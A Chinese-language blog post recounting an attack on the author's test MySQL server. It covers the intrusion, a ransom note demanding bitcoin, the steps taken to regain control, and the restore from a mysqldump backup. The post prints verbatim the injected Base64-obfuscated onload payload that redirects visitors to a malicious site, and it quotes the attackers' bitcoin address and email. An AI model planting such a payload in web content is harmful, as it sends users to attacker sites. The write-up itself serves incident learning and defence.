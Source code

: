 ```yaml
---
layout: post
title: 运维｜MySQL 数据库被黑，心力交瘁
categories: [Linux, Database]
description: MySQL 被黑了，至少要会做这些事来恢复数据。
keywords: Linux, MySQL, Database
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


前一阵有一个测试用的 MySQL 数据库被黑了，删库勒索的那种，这里记录一下事情经过，给自己也敲个警钟。

## 0x00 发现端倪

有一天，我在自测功能的时候，发现 APP 里展示的每条详情信息里都有一段乱码，只是有点奇怪，没有特别在意，后来调试网页的时候看到控制台有个报错，就顺手看了一眼，发现详情网页里有这样的东西：

![body-onload](/images/posts/database/body-onload.png)

找我的前端小伙伴讨论了下，最后本地调试了一番，发现是数据库里有个字段齐刷刷地被改成这个了：

```
<body/onload=eval(atob("d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vaHpyMGRtMjhtMTdjLmNvbS9lYm1zczBqcTc/a2V5PWM5MGEzMzYzMDEzYzVmY2FhZjhiZjVhOWE0ZTQwODZhIik="))>
```

atob 里面这一串是被 Base64 编码的 `window.location.replace("https://xxx.com/xxx")`，所以这段代码如果在网页里被正常加载，网页会被自动重定向到一个邪恶的网址：

![fake-security-tips](/images/posts/database/fake-security-tips.png)

是不是挺可怕？浏览网页的人如果警惕性不高，可能就中招了。这时我明白过来，我的测试环境这是被当成肉鸡了……

不过当时还是大意了，因为暂时没有想通它是怎样攻击和篡改，以为就是从页面注入的，就在逻辑里加了一些防护逻辑，把这个字段值都改回去然后就继续干活了。

## 0x01 库没人懵

到第二天，正欢乐地测着功能呢，突然打开啥页面都报数据库异常了，到库里一看，好家伙，所有表都没了，只剩一张 readme，里面写着：

> 以下数据库已被删除：xxx。 我们有完整的备份。 要恢复它，您必须向我们的比特币地址bc1q8erv6l4xrdqsfpwp92gm0mccur49pqn8l8epfg支付0.016比特币（BTC）。 如果您需要证明，请通过以下电子邮件与我们联系。 song4372@proton.me 。 任何与付款无关的邮件都将被忽略！

事情没我想象的简单！能把库里的表都删了，数据库和服务器的权限怕是都被拿到了。

仔细回想了前一段时间里发生的事情，推测过程可能是这样的：

- 最开始，有一天接收到阿里云的告警，提示 AK 泄漏，查看事件日志发现利用 AK 创建了一个 RAM 子账号，并赋予了高权限，当时我禁用了涉及的 AK，删除了被创建的子账号，但服务器应该已经被渗透了；
- 然后就是数据库字段被篡改，估计是一方面把服务器资源作为肉鸡继续扩散攻击其它人，另一方面作为诱饵，监控处理动作；
- 最后就是删库勒索了。

## 0x02 夺回权限

当务之急，是夺回权限，恢复数据。整个服务器和数据库的权限应该都不安全了，所以我先采取了以下措施：

- 检查服务器安全组规则，发现被加入了允许公网访问 3306 和所有端口的记录，将其删除；
- 检查服务器上的用户，发现多了一个用户 `guest`，uid 0，将其禁用；
- 检查进程，发现有用 `guest` 用户启动的 bash 进程和 mysql root 用户进程，将其 kill 掉；
- 修改服务器所有用户密码，检查用户权限；
- 修改数据库端口、重置所有用户和密码，只赋予用户必要权限；
- 更新服务器，修复已知安全漏洞；

用到的主要指令：

```sh
# 检查 Linux 服务器上的用户
cat /etc/passwd

# 修改用户密码
passwd <username>

# 检查进程
ps -ef 

# 杀掉进程
kill -9 <pid>

# 修改数据库端口
vim /etc/my.cnf

# mysql 删除用户，在 mysql 命令行执行
drop user '<user_name>'@'<scope>';
# mysql 创建用户，赋予权限，在 mysql 命令行执行
create user '<user_name>'@'<scope>' IDENTIFIED BY '<password>';
grant select,insert,update,delete on '<database_name>'.* to '<user_name>'@'<scope>';
```

## 0x03 修复数据

接下来就是修复数据了。

这个测试用的 MySQL 实例开启了 binlog，可惜被攻击者清除了，所以只能从备份恢复了。数据用定时任务 + mysqldump，每天备份一次，找到合适的备份，恢复数据。

*ps: 幸亏有备份，不然真是欲哭无泪了。*

```sh
# 解压备份文件
gunzip -c xxx.sql.gz > xxx.sql

# 恢复数据，在 mysql 命令行执行
use <database_name>;
souce /path/to/xxx.sql;
```

## 0x04 小结

以上的步骤的操作过程，远没有看起来那么简单，实际耗费了我挺长时间。

这次事件让我深刻地意识到，安全问题不容忽视，不管是服务器还是数据库，都要做好安全措施，不要给攻击者可乘之机。不然真到了被攻击，而又自行恢复无望的时候，那就叫天天不应，叫地地不灵了。退一万步说，即使有备份，也会耗费大量的时间和精力，影响正常的工作和生活。

安全任重道远，后续先做好以下方面：

- 访问控制，只赋予必要权限；
- 服务器镜像、数据库定期备份；
- 定期漏洞扫描与修复；
- 敏感数据加密；
- 操作审计；

最后，**警钟常鸣！**
